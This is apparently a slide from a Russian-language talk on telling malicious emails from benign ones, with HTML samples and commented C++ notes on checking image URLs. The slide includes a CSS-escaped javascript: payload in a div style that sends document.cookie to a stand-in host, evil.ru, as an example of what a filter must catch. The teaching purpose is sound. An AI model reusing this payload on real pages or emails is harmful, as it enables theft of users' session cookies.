

# Как отличить «плохое» письмо от «хорошего»?
// Тут легко понять - что-то неладное!
<div style="list-style:url(http://foo.f)\20url
    (javascript: send(document.cookie, 'http://evil.ru/scrip1.php')); ">
        hello world!
</div>
// А что делать с картинками? Заведем std::vector<std::string> imgs !
// imgs.emplace_back("bad.com/picture.jpg");
<img src = "http://bad.com/picture.jpg">

// imgs.emplace_back("good.com/picture.jpg");
<img src = "http://good.com/picture.jpg">

// check_images(imgs);
4